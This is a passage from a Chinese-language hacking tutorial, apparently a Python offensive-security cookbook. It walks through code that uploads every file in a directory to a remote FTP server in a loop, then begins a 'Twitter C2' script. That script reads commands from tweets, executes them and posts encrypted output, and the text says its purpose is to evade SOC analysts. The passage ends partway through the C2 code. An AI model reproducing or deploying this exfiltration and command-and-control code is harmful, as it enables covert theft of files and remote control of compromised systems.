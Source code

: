 对于在目录中检测到的每个文件，我们尝试打开它。重要的是我们用`rb`打开文件，因为这允许它作为二进制文件读取，使其可以作为二进制文件传输。如果可以打开，我们使用`storbinary`命令将其传输到 FTP。然后我们关闭文件以完成交易：

```py
  try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
```

如果由于任何原因我们无法打开或传输文件，我们只需继续到列表中的下一个文件：

```py
  else:
      pass
```

然后我们检查是否自上次命令以来改变了目录。如果没有，我们就跳出主循环：

```py
if filescheck == files:
    break
```

如果目录列表不匹配，我们将`filecheck`变量设置为匹配当前目录，通过`1`迭代循环，并休眠`10`秒以避免向服务器发送垃圾邮件：

```py
else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
```

最后，一切都完成后，我们关闭与 FTP 服务器的连接：

```py
ftp.close()
```

# 创建 Twitter C2

在一定程度上，请求互联网上的随机页面是可以接受的，但一旦**安全运营中心**（**SOC**）分析员仔细查看所有消失在管道中的数据，很明显这些请求是发往一个可疑站点，因此很可能与恶意流量相关。幸运的是，社交媒体在这方面提供了帮助，并允许我们将数据隐藏在明处。

我们将创建一个连接到 Twitter 的脚本，读取推文，根据这些推文执行命令，加密响应数据，并将其发布到 Twitter。我们还将创建一个解码脚本。

## 入门

为此，您需要一个带有 API 密钥的 Twitter 帐户。

## 如何做…

我们将使用的脚本如下：

```py
from twitter import *
import os
from Crypto.Cipher import ARC4
import subprocess
import time

token = ''
token_key = ''
con_secret = ''
con_secret_key = ''
t = Twitter(auth=OAuth(token, token_key, con_secret, con_secret_key))

while 1:
  user = t.statuses.user_timeline()
  command = user[0]["text"].encode('utf-8')
```